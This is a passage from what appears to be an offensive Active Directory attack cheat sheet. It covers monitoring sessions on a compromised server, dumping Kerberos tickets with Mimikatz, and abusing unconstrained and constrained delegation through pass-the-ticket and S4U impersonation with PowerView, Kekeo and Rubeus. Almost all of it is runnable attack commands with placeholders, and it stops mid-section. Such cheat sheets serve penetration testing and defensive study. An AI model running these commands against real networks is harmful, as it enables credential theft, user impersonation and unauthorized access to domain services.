 Command to monitor any incoming sessions on our compromised server

```text
Invoke-UserHunter -ComputerName <NameOfTheComputer> -Poll <TimeOfMonitoringInSeconds> -UserName <UserToMonitorFor> -Delay   
<WaitInterval> -Verbose
```

Dump the tickets to disk:

```text
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

Impersonate the user using ptt attack:

```text
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTicket>"'
```

**Note:** We can also use Rubeus!

### Constrained Delegation

Using PowerView and Kekeo:

Enumerate Users and Computers with constrained delegation

```text
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

If we have a user that has Constrained delegation, we ask for a valid tgt of this user using kekeo

```text
tgt::ask /user:<UserName> /domain:<Domain's FQDN> /rc4:<hashedPasswordOfTheUser>
```

Then using the TGT we have asked a TGS for a Service this user has Access to through constrained delegation

```text
tgs::s4u /tgt:<PathToTGT> /user:<UserToImpersonate>@<Domain's FQDN> /service:<Service's SPN>
```

Finally, use mimikatz to ptt the TGS

```text
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTGS>"'
```

Alterntative method, using Rubeus:

```text
Rubeus.exe s4u /user:<UserName> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<UserToImpersonate> /msdsspn:"<Service's SPN>" /altservice:<Optional> /ptt
```

Now we can access the service as the impersonated user!

**What if we have delegation rights for only a specific SPN? \(e.g TIME\):**
